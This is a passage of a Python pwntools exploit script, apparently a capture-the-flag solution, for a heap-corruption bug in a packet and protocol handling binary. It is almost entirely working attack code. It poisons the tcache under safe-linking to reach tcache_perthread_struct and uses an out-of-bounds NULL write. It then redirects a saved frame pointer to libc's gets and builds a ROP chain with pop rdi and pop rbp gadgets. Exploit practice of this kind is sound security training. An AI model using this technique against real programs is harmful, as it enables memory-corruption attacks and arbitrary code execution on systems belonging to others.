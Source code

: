 ```py
    
    # if B is set, try again
    target_chunk = top
    B = (top >> 20) & 0xF
    while ((target_chunk >> 8) & 0xF) != B:
        p.close()
        continue

    # 4. set target chunk which will prepare tcache->next as tcache_perthread_struct
    target_chunk = top
    target_chunk_data = (target_chunk + 0x20) & 0xFF
    target_chunk_cnt = cnt
    log.info(f"target chunk @ 0x{target_chunk:x}")

    # 5. allocate more chunks and find the safe place for tcache->next
    addPacket(0x68, 1, b'A'*8)
    addPacket(0x68, 1, b'A'*8)
    addPacket(0x68, 1, b'A'*8)
    top += 0x90 * 3
    cnt += 3
    log.info(f"top : 0x{top:x}")

    while True:
        top_data_fd = (top & 0xFF)
        if target_chunk_data <= top_data_fd and top_data_fd < target_chunk_data + 0x68:
            break

        top += 0x90
        cnt += 1
        addPacket(1, 1, b'1')
    
    offset = top_data_fd - target_chunk_data
    
    # 6. free target_chunk and prepare tcache->next
    delPacket(target_chunk_cnt)
    addPacket(0x68, 2, b'A'*(offset - 4) + p64((heap + 0x10) ^ (top >> 12)))
    
    # 7. overwrite tcache->next as target_chunk->data (oob write NULL)
    delPacket(0)
    delPacket(cnt - 2)
    delPacket(cnt - 3)
    delPacket(cnt - 4)
    addProtocol(b'A'*0xF)
    addPacket(0x68, 4, b'B'*0x61 + b'\x00')
    addPacket(1, 1, b'\x00')
    addPacket(1, 1, b'\x00')

    try:
        # 8. overwrite gets on main SFP
        addPacket(0x68, 4, b'B'*0x50 + p64(stack + 0x20)[:7])
        addProtocol(p64(libc.symbols['gets'])[:7])

        # 9. free tcache_perthread_struct chunk into unsorted bin (entry cnt is larger than 7)
        delPacket(cnt - 3)

        # 10. overwrite rdi, rbp gadget on addProtocol RET
        rop = ROP([libc])
        pop_rdi_rbp = rop.find_gadget(['pop rdi', 'pop rbp', 'ret'])[0]
        addPacket(0x68, 4, b'C'*0x50 + p64(stack)[:7])
        addProtocol(b'B'* 8 + p64(pop_rdi_rbp)[:7])
    except EOFError:
        p.close()
        continue
```